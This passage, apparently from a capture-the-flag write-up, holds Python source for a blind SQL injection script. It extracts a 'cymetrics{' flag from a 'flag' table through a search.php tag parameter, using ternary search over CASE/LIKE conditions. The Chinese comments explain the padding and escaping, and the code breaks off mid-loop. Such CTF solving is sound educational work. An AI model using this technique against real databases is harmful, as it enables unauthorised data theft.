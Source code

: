 ``` python
result = 'cymetrics{'

is_over = False
start = time.time()
while True:
  print_success("result: " + result)
  if is_over:
    break

  found = False
  L = 0
  R = len(char_set) - 1
  while L<=R:
    s = (R-L) // 3
    ML = L + s
    MR = L + s * 2
    if s == 0:
      MR = L + 1

    group = [
      char_set[L:ML],
      char_set[ML:MR],
      char_set[MR:R+1]
    ]

    conditions = []
    for i in range(0, 3):
      if len(group[i]) == 0:
        # 空的話加上 1=2，一個恆假的條件
        conditions.append("1=2")
        continue
      # 這邊要對 _ 做處理，加上 /，否則 _ 會配對到任意一個字元
      arr = [f"(content like '{result}{chr(92) + c if c == '_' else c}%')" for c in group[i]]
      conditions.append(" or ".join(arr))

    payload = f'''
    (select case
      when ({conditions[0]}) then 1  
      when ({conditions[1]}) then 2  
      when ({conditions[2]}) then 5
      else 10
    end from flag)
    '''

    print("trying", group)

    response = requests.get(f'{host}/search.php?tag={encode(payload)}')
    if not response.ok:
      print('error')
      print(response.text)
      print(payload)
      is_over = True
      break

    data = json.loads(response.text)
    if len(data) == 0:
      print("end")
      is_over = True
      break

    if len(data) == 2:
      R = ML
      if len(group[0]) == 1:
```
